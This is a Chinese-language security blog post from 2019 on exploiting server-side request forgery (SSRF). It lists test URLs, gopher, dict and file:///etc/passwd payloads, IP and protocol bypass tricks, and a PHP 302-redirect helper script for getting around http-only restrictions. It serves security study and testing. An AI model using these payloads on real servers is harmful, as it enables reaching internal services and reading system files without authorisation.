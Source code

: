 ```yaml
---
layout: post
title: SSRF在有无回显方面的利用及其思考与总结
noToc: true
date: 2019-09-16 23:30:00 +0800
tags: WEB安全 漏洞挖掘
cover: '../assets/ssrf.png' 
---
```


## SSRF在有无回显方面的利用及其思考与总结

​       对于SSRF的利用、危害及绕过[MisakiKata ]师傅先知上的的[一文](https://xz.aliyun.com/t/6235)介绍的非常详细，看了这篇文章也学到了很多。由于在实际场景中还遇到很多类似SSRF的点，所以还想深入探讨一下其他利用方式以及无回显情况下的SSRF。

### 1.一般层面（有回显）SSRF及bypass利用技巧

可能存在SSRF的URL:

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```

测试

```
http://www.xxx.com/vul.php?url=http://127.0.0.1:port
```

根据回显内容和状态即可确定漏洞是否存在。

协议利用

```
gopher
http://127.0.0.1/ssrf.php?url=gopher://127.0.0.1:2333/_test
dict
http://4o4notfound.org/ssrf.php?url=dict://127.0.0.1:port/info
file
http://4o4notfound.org/ssrf.php?url=file:///etc/passwd
http
http://4o4notfound.org/ssrf.php?url=http://xxx.com/302.php
```

协议限制为http下向服务端提交

#### **bypass**

- IP限制绕过（xip.io,十进制IP,八进制IP）
- 协议限制绕过（Redirect,CRLF header injection）
- 调用系统支持的协议和方法

辅助脚本302.php----bypass http协议限制

```
<?php

$ip = $_GET['ip'];

$port = $_GET['port'];

$scheme = $_GET['s'];

$data = $_GET['data'];

header("Location: $scheme://$ip:$port/$data"); ?>
```
